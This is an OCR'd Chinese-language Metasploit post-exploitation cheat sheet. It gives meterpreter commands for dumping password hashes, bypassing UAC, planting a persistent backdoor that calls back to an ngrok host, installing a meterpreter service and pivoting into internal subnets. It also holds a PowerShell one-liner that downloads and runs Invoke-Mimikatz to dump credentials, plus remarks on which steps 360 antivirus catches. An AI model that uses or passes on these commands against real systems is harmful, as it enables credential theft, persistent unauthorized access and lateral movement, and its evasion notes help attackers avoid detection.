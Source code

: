 > meterpreter > getuid
>
> meterpreter > getpid
>
> meterpreter > ps
>
> meterpreter > migrate 676

### Msf hash

> meterpreter > run hashdump    sys
>
> meterpreter > run post/windows/gather/smart_hashdump  需要 sys 权限

getsystem 存在 uac，用 msf bypass，但特征明显 

> meterpreter > search bypassuac

> msf powerdump load mimikatz 不太好用

### Msf 的持续后门

****Persistence:** **

``run persistence -h`` 用于创建启动项启动，会创建注册表，创建文件。（X86_Linux 不支持此脚本）

> run persistence -U -i 10 -p 10390 -r free.ngrok.cc 

会被 360 拦，-i 10 10 秒请求一次, 使用 powershell 执行也被监控而被 360 拦截

meterpreter 的 ``run getgui -e`` 命令可以开启成功。360 会提示阻止

``Run metsvc -h`` ：用于创建服务，会创建 meterpreter 服务，并上传三个文件，使用-r参数可以卸载服务 ，被拦

### Msf powershell

> meterpreter > load powershell
>
> meterpreter > powershell_shell
>
> PS > IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');
>
> Ps > Invoke-Mimikatz -DumpCreds

### Msf Router

2 个或多个路由之间，没有配置相应的路由表，不能访问，获得一台机器 shell session  添加路由，使 msf 可以在当前 shell session 下以被攻击机访问其他内网主机，

> meterpreter > run get_local_subnets 
>
> meterpreter > run autoroute -s 172.17.0.0/16  添加路由
>
> meterpreter > run autoroute -p 				  查看路由
>
> meterpreter > run autoroute -d -s 172.17.0.0/16  删除
